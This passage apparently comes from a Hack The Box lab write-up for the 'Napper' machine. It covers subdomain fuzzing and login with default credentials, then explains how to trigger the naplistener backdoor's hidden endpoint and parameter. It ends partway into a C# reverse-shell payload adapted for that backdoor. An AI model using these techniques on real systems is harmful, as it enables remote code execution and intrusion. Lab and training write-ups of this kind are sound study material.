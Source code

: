 ```markdown
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 5602
________________________________________________

internal                [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 102ms]
:: Progress: [4989/4989] :: Job [1/1] :: 734 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```
We have found another subdomain called `internal.napper.htb`. If we browse it with firefox, a login web page appears.

![napper1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/0e09e565-efa8-45dd-8895-ffe846f21a2f)

Browsing the login site with burpsuite, we see it uses basic authorization, where the credentials are sent in base64. The next step would be to find valid credentials for this site. In the blog `app.napper.htb` there are information about how the basic authorization works.
### PHASE 2: User
Browsing the site we find the procedure they followed to configure the server, including the default password used.

![napper2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8081003f-c577-4f92-aca7-8f8a9166966e)

Trying these credentials (example:ExamplePassword) in the login page, we are given access to the internal area. Inside the restricted area we find out there is an investigation ongoing on a malware called naplistener. Doing a search in Internet, we find out 2 good resources to have an undertanding of this malware.<br>
https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph<br>
https://thehackernews.com/2023/03/new-naplistener-malware-used-by-ref2924.html<br>
In summary, it is a malware written in c# which starts an http listener in the infected machines. Once the listener is running, if you send base64 encoded c# payloads to certain endpoint, it will be executed in memory. It is designed to masquerade and evade network-based detection methods, for this same reason, it will only process requests sent to `/ews/MsExgHealthCheckd/`, in the `sdafwe3rwe23` parameter. Any other tries to interact with naplistener will be responded with a 404 code.
To verify if naplistener is running in the host, we send a base64 "aaa" payload to the endpoint and it is respondeded with OK 200. Therefore, naplistener is running in the system.

![napper3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/1140e4eb-37fb-4e53-a586-589b630da358)

We conclude if we send a base64-encoded c# reverse shell it will be decoded by naplistener and executed.
Next step is to download a c# tcp shell from http://www.revshells.com. Bear in mind it cannot be used off-the-self, it needs some modifications.
1. Namespace must match filename
2. It must contain a `Run` class
3. Create a constructor and place the shell code inside, so it is automatically invoked whenever an instance of the class is created. 
4. The `main()` point of entry will just call the constructor

An example payload could be the following:
```c#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace Present
{
	public class Run
	{
		static StreamWriter streamWriter;
```